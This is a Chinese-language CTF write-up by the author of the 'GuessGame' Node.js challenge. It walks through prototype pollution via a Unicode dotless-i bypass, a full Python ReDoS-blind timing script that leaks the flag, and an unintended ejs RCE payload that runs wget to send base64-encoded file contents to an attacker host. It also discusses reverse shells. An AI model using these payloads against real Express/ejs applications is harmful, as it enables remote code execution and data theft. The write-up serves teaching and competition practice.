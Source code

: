 ### GuessGame

出题人：南阳理工学院——12end

#### ReDos Blind

前几日看到Takashi Yoneuchi发表的redos研究：

[Revisiting ReDos](https://speakerdeck.com/lmt_swallow/revisiting-redos-a-rough-idea-of-data-exfiltration-by-redos-and-side-channel-techniques)

[ReDos](https://diary.shift-js.info/blind-regular-expression-injection/?tdsourcetag=s_pctim_aiomsg)

（这几篇文章十分有趣，尤其是构造正则逐位延时的那部分）

参考了几篇文章，结合node一些众所周知的特性出了道水题（第一次写node，代码写的一团糟。。同时也直接导致了后面被ejs-rce非预期的解法）

出这道题的目的是想让大家了解下在单进程的node下，redos攻击有多么恐怖；以及redos blind的这种技术（我印象中我打过的比赛中都没有见过这样的题）

实际上出题时候见过ejs的rce，但是当时看到标题`Express+lodash+ejs: 从原型链污染到RCE`还以为这个需要依赖lodash，就直接扔收藏夹没理了~

关于为什么用node？不想用php写，用python写的话好像几个月前国外出过一道这样的题，本身又想学下node，就拿node开刀了。

因为我以为这次比赛是一队一靶机（递交题目时也和主办方说明了node单进程会阻塞，只能一个人做），甚至想着原型污染之后就不会再有人传log了，所以连log都是用变量存的，没想到这次比赛都是公共环境，给大家带来这么糟糕的比赛体验，还多次麻烦了主办方，**实在抱歉**

---

#### 预期解

首页是一个登记，checkin之后给了`/verifyFlag`路由，然后让猜flag。

乱猜一通回显一致，页面源代码提示`/static/app.js`下载源码。

```javascript
var config = {
    "forbidAdmin" : true,
    //"enableReg" : true
};
var loginHistory = [];
var adminName = "admin888";
var flag = "************";

app.get('/', function (req, res) {
    res.render("index");
});

//So terrible code~
app.post('/',function (req, res) {
    if(typeof req.body.user.username != "string"){
        res.end("error");
    }else {
        if(config.forbidAdmin && req.body.user.username.includes("admin")){
            res.end("any admin user has been baned");
        }else {
            if(req.body.user.username.toUpperCase() === adminName.toUpperCase())
                //only log admin's activity
                log(req.body.user);
            res.end("ok");
        }
    }
});

app.get('/log', function (req,res) {
    if(loginHistory.length==0){
        res.end("no log");
    }else {
        res.json(loginHistory);
    }
});

app.get('/verifyFlag', function (req, res) {
    res.render("verifyFlag");
});


app.post('/verifyFlag',function (req,res) {
    //let result = "Your match flag is here: ";
    let result = "Emm~ I won't tell you what happened! ";

    if(typeof req.body.q != "string"){
        res.end("please input your guessing flag");
    }else{
        let regExp = req.body.q;
        if(config.enableReg && noDos(regExp) && flag.match(regExp)){
            //res.end(flag);
            //Stop your wishful thinking and go away!
        }
        if(req.query.q === flag)
            result+=flag;
        res.end(result);
    }
});

function noDos(regExp) {
    //match regExp like this will be too hard
    return !(regExp.length>30||regExp.match(/[)]/g).length>5);
}

function log(userInfo){
    let logItem = {"time":new Date().toString()};
    merge(logItem,userInfo);
    loginHistory.push(logItem);
}
```

可以看到verifyFlag处需要regExp选项为true，源码中这个变量被注释掉了。

checkIn操作提供了一个记录admin登记日志的功能，且log函数使用了merge功能，会出现原型链污染。

在log前有一个校验，forbidAdmin选项开启时，用户名不能出现'admin'，而在后面校验admin并且存日志的时候使用的是toUppercase，所以构造如下json，能够原型链污染到enableReg变量

`{"user":{"username": "admın888","__proto__": {"enableReg": true}}}`

> "ı"在javascript大写处理后为I

开启enableReg后就能够通过正则来匹配flag，但显然不论匹配与否回显都是一致的，看到代码后面对正则的一些限制，能想到是通过reDos来盲注出flag。

运行脚本得到flag，（脚本是对文章中脚本改了改

```python
import socket
import sys
import time
import random
import string
import requests
import re

# constants
THRESHOLD = 2

# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})((((.*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    #sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        #sock.connect(("localhost", 9999))
        # sock.recv(1024)
        #sock.sendall((payload + "\n").encode())
        _start = time.time()
        requests.post("http://121.37.179.47:8081/verifyFlag", {"q": payload})
        # sock.recv(1024)
        _end = time.time()
        duration = _end - _start
    except:
        duration = -1
        exit(1)
    # finally:
        # sock.close()
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = "!"  # generate_salt()
    # while not prop_holds('.*', salt):
    #    salt = generate_salt()
    #print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 15
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
    print("[+] length: {}".format(secret_length))

    S = "qwdfkjurlasetghnioyzxcvbpmQWDFKJURLASETGHNIOYZXCVBPM1234567890"
    secret = ""
    for i in range(0, secret_length):
        for c in S:
            if prop_holds(nth_char_is(i+1, c), salt):
                secret += c
                print("[*] {}".format(secret))
    print("[+] secret: {}".format(secret))

```

脚本打我自己电脑上的靶机花了大概3分钟：

![2](reblind-2.png)

---

#### 非预期解

关于非预期的ejs-rce：

```python
import requests
url = "http://127.0.0.1:32771"
requests.post(url, json={"user": {"username": "admın888", "__proto__": {
              "outputFunctionName": "process.mainModule.require('child_process').exec('wget http://my_ip:2333/`cat app.js | grep flag | base64 | tr -d \"\\n\"`');//"}}})
```

打过去之后访问需要ejs渲染的界面（譬如首页）即可触发

（真庆幸没有人直接return一个exec('cat app.js')

这样子会得到

![1](reblind-1.png)

也可以直接反弹shell，需要注意的是容器用的是alpine，内置工具少之又少，它没有bash，你只能用ash或者sh，而且通过传统bash反弹shell中使用的`/dev/tcp/ip/port`这种方法也是不可以用的（alpine-linux并不允许这样调用socket）具体如何反弹，请选手们自行了解

如果对本题感兴趣，我已将docker环境及本wp上传至github:`https://github.com/12end/Ctf-Challanges/GuessGame/`
